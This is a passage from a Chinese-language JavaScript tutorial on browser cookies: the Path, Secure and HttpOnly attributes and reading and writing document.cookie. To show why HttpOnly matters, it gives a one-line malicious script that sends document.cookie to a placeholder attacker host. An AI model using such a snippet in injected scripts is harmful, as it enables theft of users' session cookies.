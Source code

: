 `Path` 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 `Cookie`。只要浏览器发现，`Path` 属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 `Cookie`。比如，`PATH` 属性是 `/`，那么请求 `/docs` 路径也会包含该 `Cookie`。当然，前提是域名必须一致。

### 3.3.`Secure`，`HttpOnly`

`Secure` 属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 `Cookie` 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的 `Secure` 属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly` 属性指定该 `Cookie` 无法通过 JavaScript 脚本拿到，主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 `Cookie`。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 `Cookie` 发往第三方服务器。如果设置了一个 `Cookie` 的 `HttpOnly` 属性，上面代码就不会读到该 `Cookie`。

## 4.`document.cookie`

`document.cookie` 属性用于读写当前网页的 `Cookie`。

读取的时候，它会返回当前网页的所有 `Cookie`，前提是该 `Cookie` 不能有 `HTTPOnly` 属性。

```js
document.cookie // "foo=bar;baz=bar"
```

上面代码从 `document.cookie` 一次性读出两个 `Cookie`，它们之间使用分号分隔。必须手动还原，才能取出每一个 `Cookie` 的值。

```js
var cookies = document.cookie.split(";");

for (var i = 0; i < cookies.length; i++) {
  console.log(cookies[i]);
}
// foo=bar
// baz=bar
```

`document.cookie` 属性是可写的，可以通过它为当前网站添加 `Cookie`。

```js
document.cookie = 'fontSize=14';
```

写入的时候，`Cookie` 的值必须写成 `key=value` 的形式。注意，等号两边不能有空格。另外，写入 `Cookie` 的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 `Cookie` 的值），这可以用 `encodeURIComponent` 方法达到。

但是，`document.cookie` 一次只能写入一个 `Cookie`，而且写入并不是覆盖，而是添加。

```js
document.cookie = "test1=hello";
document.cookie = "test2=world";
document.cookie;
// test1=hello;test2=world
```

`document.cookie` 读写行为的差异（一次可以读出全部 `Cookie`，但是只能写入一个 `Cookie`），与 HTTP 协议的 `Cookie` 通信格式有关。浏览器向服务器发送 `Cookie` 的时候，`Cookie` 字段是使用一行将所有 `Cookie` 全部发送；服务器向浏览器设置 `Cookie` 的时候，`Set-Cookie` 字段是一行设置一个 `Cookie`。
